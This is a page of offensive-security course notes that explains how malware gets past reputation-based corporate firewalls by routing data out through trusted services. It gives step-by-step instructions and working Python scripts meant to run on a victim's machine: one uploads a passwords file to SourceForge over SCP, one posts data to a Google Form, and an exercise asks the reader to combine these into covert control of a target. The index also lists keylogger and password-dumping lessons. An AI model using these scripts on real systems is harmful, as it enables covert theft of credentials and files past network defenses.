 ```yaml
---
title: Bypassing Next Generation Firewalls
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - bypassing techniques
  - firewall
  - bypassing firewall
  - next generation firewalls
---
```


# Bypassing Next Generation Firewalls

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


Corporate firewall (Next Generation Firewalls) can block traffic based on the reputation of the target IP/url. This means that once we achieve to execute the malicious client side script on the victim's machine, this next generation firewall might block/defer the connection if the reputation or the rank of the target URL/IP belongs to a pool of resources supplied by the vendor and it's categorized as low.

To overcome this filter, modern malware is using trusted targets.

## Using Source Forge for data exfiltration

**1.** Signup in Source Forge

You will get credentials for configuring your SFTP agent in step 3.


**2.** Install filezilla. It will work as our SFTP agent: 

```bash
sudo apt-get install filezilla
```

**3.** Configure filezilla and connect.
```
Host: web.sourceforge.net
username: usernameinSourceForge
password: passwordinSourceForge
port: 22
```

**4.** Install these two python libraries on the victim's machine: paramiko and scp.

```
pip install paramiko
pip install scp
```

**5.** Run the script on the victim's machine:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read SourceForge terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import paramiko
import scp

# File Management on SourceForge 
# [+] https://sourceforge.net/p/forge/documentation/File%20Management/


ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="myusernameatSourceForge", password="PASSWORD HERE") #Authenticate ourselves to the sourceforge. Server, user and password from step 1
print ("[+] Authenticating against web.sourceforge.net")

scp = scp.SCPClient(ssh_client.get_transport()) #after a sucessful authentication the ssh session id will be passed into SCPClient function

scp.put("C:/Users/Alex/Desktop/passwords.txt") # upload a file, for instance password.txt
print ("[+} File is uploaded")

scp.close()

print("[+] Closing the socket")

```

## Using Google Forms for submitting output

**1.** Create a Google Form with a quick test and copy the link of the survey.

**2.** Copy the name of the form from the source code of the google form.

![name of the form](../img/google-form.png)

**3.** Paste URL of the survey +  name of the form in the script:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2



import requests

url = 'https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse'

form_data = {'entry.1301128713':'Lets see how we can use this, in the next exercise'}

r = requests.post(url, data=form_data)

# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```


### Exercise 

```
Try to combine the above ideas (Google Form + Twitter + SourceForge) Into a single script and see if you can control your target without direct interaction.
```
